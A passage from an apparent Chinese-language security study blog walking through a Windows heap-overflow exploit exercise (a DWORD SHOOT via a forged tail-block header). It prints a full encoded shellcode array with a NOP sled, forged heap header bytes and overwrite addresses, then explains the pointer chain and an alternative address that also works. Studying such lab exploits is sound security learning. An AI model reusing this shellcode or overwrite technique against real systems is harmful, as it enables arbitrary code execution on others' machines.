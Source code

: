 ```c
char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x29\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd"
"\x0E\x01\x22\x00\x00\x01\x00\x00"
"\x70\xFF\x12\x00"
"\x10\x32\xFC\x77";
```

一个需要注意的细节是，倒数第三行是尾块块首的信息：

```c
"\x0E\x01\x22\x00\x00\x01\x00\x00"
```

我们知道，正常的应该是

```c
"\x0E\x01\x22\x00\x00\x10\x00\x00"
```

即倒数第三个字节的高位应该是`1`，这是尾块的标志位。然而如果是这样，我们将无法触发异常处理机制，程序会正常结束，从而我们的shellcode也不能得到执行：

![Bildschirmfoto 2018-07-23 um 8.53.22 PM.png]({{ site.url }}/images/0day/A7051C3CC5E7F3AEA4C6A900CF649F54.png)

另外一个需要注意的一个细节是，在我们的例子中，shellcode的实际调用关系是：

![Bildschirmfoto 2018-07-22 um 2.15.21 PM.png]({{ site.url }}/images/0day/79B67BEC449D75394B89176896BF6212.png)

简单解释一下：一开始在`memcpy`之前，shellcode存在于`.data`区，这是由源代码中写死的shellcode决定的。在`memcpy`时，由于函数参数会被压栈，所以一个指向`.data`区shellcode的指针被压入栈中，这导致了栈区出现指针；在`memcpy`后，shellcode被复制到了堆区，所以堆区有了shellcode。最终引发DWORD SHOOT是由于堆溢出，但是堆溢出后经过指针跳转，获得执行的却是`.data`区的shellcode。当然，由于`memcpy`还需要一个目的地指针，即堆区的指针，所以栈上肯定也存在一个指向堆区shellcode的指针：

![Bildschirmfoto 2018-07-22 um 2.23.41 PM.png]({{ site.url }}/images/0day/E0C1DC53F62F8D7E212F30CF31099706.png)

即上图右下方的`0x0012FF50`。如果使用这个位置的指针，那么我们的调用链就变成了：

![Bildschirmfoto 2018-07-22 um 2.24.48 PM.png]({{ site.url }}/images/0day/3E3A47911DB44D79030ABBEE55B06BCD.png)

经过验证，依据这种方案，把shellcode中倒数第二行的`"\x70\xFF\x12\x00"`替换成`"\x48\xFF\x12\x00"`，也能够成功exploit。
